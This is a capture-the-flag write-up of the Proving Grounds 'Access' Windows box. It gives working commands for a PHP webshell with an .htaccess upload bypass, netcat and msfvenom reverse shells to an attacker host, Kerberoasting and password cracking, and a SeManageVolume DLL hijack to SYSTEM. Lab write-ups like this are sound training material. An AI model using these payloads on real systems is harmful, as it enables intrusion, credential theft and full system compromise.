# Access -- Proving Grounds (write-up)

**Difficulty:** Intermediate
**Box:** Access (Proving Grounds)
**Author:** dsec
**Date:** 2025-06-15

---

## TL;DR

### File upload bypass via double extension and .htaccess gave webshell. Kerberoasted MSSQL service account. SeManageVolume exploit + DLL hijack for SYSTEM.

---

## Target info

- Host: `192.168.179.187`
- Domain: `access.offsec`
- Services discovered: `53/tcp`, `80/tcp`, `88/tcp`, `135/tcp`, `139/tcp`, `389/tcp`, `445/tcp`, `464/tcp`, `593/tcp`, `636/tcp`, `3268/tcp`, `3269/tcp`, `5985/tcp`, `9389/tcp`

---

## Enumeration

```bash
nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49673,49674,49677,49706 -sCV 192.168.179.187 -vvv
```



Feroxbuster found `/upload` subdirectory.

---

## Foothold

Created a double extension PHP webshell `shell.php.jpg`:

```php
<?php system($_REQUEST['cmd']); ?>
```

Uploaded `.htaccess` to execute `.jpg` as PHP:

```
AddType application/x-httpd-php .jpg
AddType application/x-httpd-php .jpeg
AddType application/x-httpd-php .png
AddType application/x-httpd-php .gif
```



Uploaded `nc64.exe` and triggered reverse shell:

```bash
curl -G http://192.168.179.187/uploads/shell.php.jpg --data-urlencode 'cmd=nc64.exe -e cmd.exe 192.168.45.205 443'
```



```bash
rlwrap -cAr nc -lnvp 443
```



---

## Lateral movement

Ran `Get-SPN.ps1` to find service accounts:

```powershell
powershell -ExecutionPolicy Bypass
.\s.ps1
```



Requested Kerberos ticket:

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'
```



Used Rubeus to kerberoast:

```powershell
.\Rubeus.exe kerberoast
```



Saved hash, removed whitespace, cracked with john:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --rules=best64 mssql.hash
```

Password: `trustno1`



Used `RunasCs` to get shell as `svc_mssql`:

```
.\r.exe svc_mssql trustno1 -r 192.168.45.205:6969 cmd
```



---

## Privilege escalation

```
whoami /priv
```



Had `SeManageVolumePrivilege`. Used `SeManageVolumeExploit.exe` to gain write access to system directories:

```powershell
.\v.exe
```



DLL hijack via `tzres.dll` (called when running `systeminfo`):

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.205 LPORT=135 -f dll -o tzres.dll
```

```powershell
iwr http://192.168.45.205/tzres.dll -o c:\Windows\System32\wbem\tzres.dll
systeminfo
```



Error message appeared but listener received admin shell.

---

## Lessons & takeaways

- Double extension + `.htaccess` upload is a reliable webshell technique when upload directories allow it
- Kerberoasting with Rubeus is straightforward when you have domain user access
- `SeManageVolumePrivilege` enables DLL hijacking by granting write access to privileged directories
---
